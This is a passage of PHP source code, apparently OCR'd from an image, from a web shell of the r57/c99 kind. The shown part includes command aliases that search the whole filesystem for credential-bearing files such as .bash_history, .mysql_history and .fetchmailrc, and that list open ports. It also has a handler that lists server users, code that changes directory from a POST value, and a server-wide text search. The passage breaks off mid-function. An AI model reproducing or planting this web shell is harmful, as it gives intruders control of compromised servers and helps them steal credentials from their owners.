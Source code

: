 'find all .bash_history files'=&gt;'find / -type f -name .bash_history',
'find .bash_history files in current dir'=&gt;'find . -type f -name .bash_history',
'find all .mysql_history files'=&gt;'find / -type f -name .mysql_history',
'find .mysql_history files in current dir'=&gt;'find . -type f -name .mysql_history',
'find all .fetchmailrc files'=&gt;'find / -type f -name .fetchmailrc',
'find .fetchmailrc files in current dir'=&gt;'find . -type f -name .fetchmailrc',
'list file attributes on a Linux second extended file system'=&gt;'lsattr -va',
'show opened ports'=&gt;'netstat -an | grep -i listen',
'----------------------------------------------------------------------------------------------------'=&gt;'ls -la'
);
$table_up1  = "&lt;tr&gt;&lt;td bgcolor=#396D95&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;&lt;div align=center&gt;:: ";
$table_up2  = " ::&lt;/div&gt;&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;";
$table_up3  = "&lt;table width=100% cellpadding=0 cellspacing=0 bgcolor=#000000&gt;&lt;tr&gt;&lt;td bgcolor=#396D95&gt;";
$table_end1 = "&lt;/td&gt;&lt;/tr&gt;";
$arrow = " &lt;font face=Wingdings color=gray&gt;?&lt;/font&gt;";
$lb = "&lt;font color=black&gt;[&lt;/font&gt;";
$rb = "&lt;font color=black&gt;]&lt;/font&gt;";
$font = "&lt;font face=Verdana size=-2&gt;";
$ts = "&lt;table class=table1 width=100% align=center&gt;";
$te = "&lt;/table&gt;";
$fs = "&lt;form name=form method=POST&gt;";
$fe = "&lt;/form&gt;";

if(isset($_GET['users']))
 {
 if(!$users=get_users()) { echo "&lt;center&gt;&lt;font face=Verdana size=-2 color=orange&gt;".$lang[$language.'_text96']."&lt;/font&gt;&lt;/center&gt;"; }
 else
  {
  echo '&lt;center&gt;';
  foreach($users as $user) { echo $user."&lt;br&gt;"; }
  echo '&lt;/center&gt;';
  }
 echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;"; die();
 }

if (!empty($_POST['dir'])) { @chdir($_POST['dir']); }
$dir = @getcwd();
$windows = 0;
$unix = 0;
if(strlen($dir)&gt;1 && $dir[1]==":") $windows=1; else $unix=1;
if(empty($dir))
 {
 $os = getenv('OS');
 if(empty($os)){ $os = php_uname(); }
 if(empty($os)){ $os ="-"; $unix=1; }
 else
    {
    if(@eregi("^win",$os)) { $windows = 1; }
    else { $unix = 1; }
    }
 }
if(!empty($_POST['s_dir']) && !empty($_POST['s_text']) && !empty($_POST['cmd']) && $_POST['cmd'] == "search_text")
  {
    echo $head;
    if(!empty($_POST['s_mask']) && !empty($_POST['m'])) { $sr = new SearchResult($_POST['s_dir'],$_POST['s_text'],$_POST['s_mask']); }
    else { $sr = new SearchResult($_POST['s_dir'],$_POST['s_text']); }
    $sr-&gt;SearchText(0,0);